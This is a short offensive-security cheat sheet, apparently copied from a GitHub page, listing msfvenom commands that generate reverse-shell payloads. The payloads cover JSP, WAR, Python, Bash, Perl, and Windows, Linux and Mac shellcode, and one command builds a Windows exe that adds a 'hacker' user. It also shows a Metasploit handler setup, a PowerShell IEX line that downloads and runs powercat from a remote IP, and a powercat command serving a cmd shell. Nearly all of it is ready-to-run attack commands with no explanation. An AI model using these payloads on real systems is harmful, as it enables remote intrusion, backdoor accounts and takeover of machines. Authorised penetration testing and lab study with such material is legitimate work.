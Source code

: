 JSP Java Meterpreter Reverse TCP
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

WAR
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war


exploit/multi/misc/openoffice_document_macro


### Scripting Payloads

Python Reverse Shell
    msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py

Bash Unix Reverse Shell
    msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

Perl Unix Reverse shell
    msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl

### Shellcode

Windows Meterpreter Reverse TCP Shellcode
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Linux Meterpreter Reverse TCP Shellcode
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Mac Reverse TCP Shellcode
    msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Create User
    msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe


### Metasploit Handler

    use exploit/multi/handler
    set PAYLOAD <Payload name>
    Set RHOST <Remote IP>
    set LHOST <Local IP>
    set LPORT <Local Port>
    Run


## https://github.com/besimorhino/powercat

- https://github.com/besimorhino/powercat

    IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.3:8000/powercat.ps1')

Serve a cmd Shell:
    powercat -l -p 443 -e cmd
